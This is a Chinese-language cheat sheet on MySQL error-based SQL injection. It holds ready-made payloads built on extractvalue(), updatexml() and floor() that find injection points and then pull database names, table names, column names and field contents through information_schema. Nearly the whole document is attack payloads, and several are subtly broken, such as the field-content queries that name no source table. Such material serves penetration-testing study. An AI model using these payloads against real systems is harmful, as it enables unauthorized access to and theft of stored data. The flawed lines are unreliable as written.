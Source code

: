 **报错原理：**当参数超过710时，exp()函数会报错，错误信息如下：<font style="color:#601BDE;">DOUBLE value is out of range:…</font>

**<font style="color:#000000;">实例：</font>**

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732078795345-2437e92f-4d4b-44fc-8655-75692eadf4b7.png)

#### 报错注入常用payload
##### <font style="color:#000000;">利用extractvalue()函数进行报错注入</font>
```sql
id=1' #   //报错，说明有注入点
id=1 and 1=1 # //正确
id=1 and 1=2 # //错误，说明是数字型注入，否则为字符型注入

id=1' and (select extractvalue(1,concat('~',(select database())))) --+ //爆出当前数据库名
id=1' and (select extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='数据库名')))) --+ //查看数据库中的表
id=1' and (select extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名')))) --+ //查看表中的字段名
id=1' and (select extractvalue(1,concat('~',(select group_concat(concat(字段1,'%23',字段2))))) --+ //查看字段内容
```

##### <font style="color:#000000;">利用updataxml()函数进行报错注入</font>
```sql
id=1' #   //报错，说明有注入点
id=1 and 1=1 # //正确
id=1 and 1=2 # //错误，说明是数字型注入，否则为字符型注入

id=1' and (select updatexml(1,concat('~ ',(select database()), '~'),1)) --+ //爆出当前数据库名
id=1' and (select updatexml(1,concat('~ ',(select group_concat(table_name) from information_schema.tables where table_schema='数据库名'), '~'),1)) //查看数据库中的表
id=1' and (select updatexml(1,concat('~ ',(select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'), '~'),1)) //查看表中的字段名
id=1' and (select updatexml(1,concat('~ ',(select group_concat(concat(字段1,'%23',字段2))), '~'),1)) --+ //查看字段内容
```

##### <font style="color:#000000;">利用floor()函数进行报错注入</font>
```sql
id=1' #   //报错，说明有注入点
id=1 and 1=1 # //正确
id=1 and 1=2 # //错误，说明是数字型注入，否则为字符型注入

id=1' and (select 1 from (select count(*),concat((select database()),floor(rand()*2))x from information_schema.tables group by x)a) --+ //爆出当前数据库名
id=1' and (select 1 from (select count(*),concat((select group_concat(table_name) from information_schema.tables where table_schema='数据库名'),floor(rand()*2))x from information_schema.tables group by x)a) --+  //查看数据库的表名
id=1' and (select 1 from (select count(*),concat((select group_concat(column_name) from information_schema.columns where table_schema='数据库名' and table_name='表名'),floor(rand()*2))x from information_schema.tables group by x)a) --+  //查看表中的字段名
id=1' and (select 1 from (select count(*),concat((select group_concat(concat(字段1,'%23',字段2))),floor(rand()*2))x from information_schema.tables group by x)a) --+  //查看字段内容
```
